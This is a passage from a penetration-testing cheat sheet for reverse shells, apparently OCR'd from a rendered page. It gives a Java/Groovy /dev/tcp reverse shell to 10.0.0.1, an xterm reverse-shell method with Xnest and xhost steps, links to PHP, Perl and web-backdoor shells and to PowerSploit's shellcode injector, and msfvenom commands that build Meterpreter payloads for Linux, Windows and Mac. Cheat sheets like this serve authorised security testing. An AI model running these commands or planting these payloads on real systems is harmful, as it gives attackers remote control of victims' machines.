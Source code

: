  r = Runtime.getRuntime()
 p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
 p.waitFor()

 [Untested submission from anonymous reader]
   xterm

 One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

 xterm -display 10.0.0.1:1

 To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

 Xnest :1

 You’ll need to authorise the target to connect to you (command also run on your host):

 xhost +targetip

    [http://pentestmonkey.net/tools/web-shells/php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell)

- php-findsock-shell - turns PHP port 80 into an interactive shell  
    [http://pentestmonkey.net/tools/web-shells/php-findsock-shell](http://pentestmonkey.net/tools/web-shells/php-findsock-shell)

- Perl Reverse Shell ( Very helpfull )  
    [http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

- PHP powered web browser Shell b374k with file upload etc.  
    [https://github.com/b374k/b374k](https://github.com/b374k/b374k)

- Windows reverse shell - PowerSploit’s Invoke-Shellcode script and inject a Meterpreter shell
    <https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1>

- Web Backdoors from Fuzzdb
    <https://github.com/fuzzdb-project/fuzzdb/tree/master/web-backdoors>

- Creating Meterpreter Shells with MSFVenom - <http://www.securityunlocked.com/2016/01/02/network-security-pentesting/most-useful-msfvenom-payloads/>

      *Linux*

      `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf`

      *Windows*

      `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe`

      *Mac*

      `msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho`

      **Web Payloads**
